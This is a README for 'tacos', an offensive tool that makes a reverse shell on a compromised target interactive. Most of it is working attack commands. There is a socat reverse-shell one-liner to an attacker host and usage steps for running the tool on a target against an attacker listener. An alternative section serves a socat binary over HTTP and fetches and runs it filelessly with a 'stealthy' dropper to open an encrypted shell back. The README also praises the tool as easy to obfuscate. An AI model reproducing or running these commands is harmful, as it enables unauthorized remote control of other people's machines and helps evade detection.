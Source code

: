 # tacos 🌮 
<sup>(reverse `socat`)</sup>

<div align=center>
<img src=https://github.com/ariary/tacos/blob/main/Tacos-logo.png width=150>
</div>

Spawn a pty in your reverse shell to automaticaly make it interactive.

Equivalent of:
```shell
socat exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP:PORT],verify=0
```

**Why ?**
* too lazy to copy/paste/learn socat command
* target doesn't have `socat` and you don't want to do [this](#alternative)
* provide more advanced configuration to the tty (alias, etc)
* easier to obfuscate
* cross-platform (to do) 


## Usage

`tacos` is built to work with the simple and dramatically effective project [`pty4all`](https://github.com/laluka/pty4all):
```shell
# On attacker machine
tmux
./light-pty4all/socat-listener.sh --lport [ATTACKER_PORT] #multi-handler

# On target (transfer tacos as you wish)
./tacos [ATTACKER_IP]
# 💥
```

## Alternative

Alternatively, if target does not have `socat`:
**Host** a [static](https://github.com/minos-org/minos-static/blob/master/static-get) version of `socat` binary and **download + execute it** using the stealthy  [`filess-xec`](https://github.com/ariary/fileless-xec) dropper:
```shell
# On attacker machine
# get socat static & expose it
get-static socat
python3 -m http.server 8080

# On target machine
# Use already downloaded fileless-xec to download socat and stealthy launch it with argument
fileless-xec [ATTACKER_IP]:8080/socat -- exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP]:443,verify=0
```
